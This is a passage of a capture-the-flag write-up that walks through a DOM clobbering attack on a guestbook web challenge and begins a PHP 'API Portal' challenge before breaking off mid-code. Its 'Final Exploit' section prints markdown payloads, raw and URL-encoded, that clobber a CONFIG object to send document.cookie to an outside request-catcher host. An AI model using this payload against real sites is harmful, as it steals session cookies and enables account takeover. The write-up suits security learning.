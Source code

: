 So all we need to do is use some DOM Clobbering to have our CONFIG variable ?

> Forgot about what DOM CLobbering is visit this [Awesome DOM Clobbering](https://medium.com/@shilpybanerjee/dom-clobbering-its-clobbering-time-f8dd5c8fbc4b)

But we have a problem and it's here

```js
// config.js

window.CONFIG = {
  version: "v0.1",
  main: "/",
  debug: false,
  debugMSG: ""
}

// prevent overwrite
Object.freeze(window.CONFIG);

```

It's pretty simple to bypass all we have to do is manipulate the path when we send it to the admin so when it tries to find the script relatively it wouldn't find it.

### Final Exploit

[1](' id='CONFIG' name='debug)
[2](javascript:location.href=`http://bzbxhgx.request.dreamhack.games?cookie=`%2bdocument.cookie' id='CONFIG' name='main)

*Crafting the link...*

`/Guestbook.php/content=%4B1%5D%28%27%20id%3D%27CONFIG%27%20name%3D%27debug%29%0A%5B2%5D%28javascript%3Alocation.href%3D%60http%3A%2F%2Fbzbxhgx.request.dreamhack.games%3Fcookie%3D%60%252bdocument.cookie%27%20id%3D%27CONFIG%27%20name%3D%27main%29%0A`

## API Portal
This task exposes a vulnerability in the php `get_file_contents` function and specificially in the context paramater.

```php
<?php
$action = $_GET["action"] ?? "main";
switch($action) {
    ...
    // Safe key-value DB API
    case "db/create":
        $param = array($_GET["key"]);
        break;
    case "db/list":
        break;
    case "db/delete":
        $param = array($_GET["key"]);
        break;
    case "db/save":
        $param = array($_GET["dbkey"], $_GET["key"], $_GET["value"]);
        break;
    case "db/read":
        $param = array($_GET["dbkey"], $_GET["key"]);
        break;

    // Network-related API
    case "net/proxy/get":
        $param = array($_GET["url"], $_SERVER["REMOTE_ADDR"], urldecode($_SERVER["REQUEST_URI"]));
        break;
    case "net/proxy/post":
```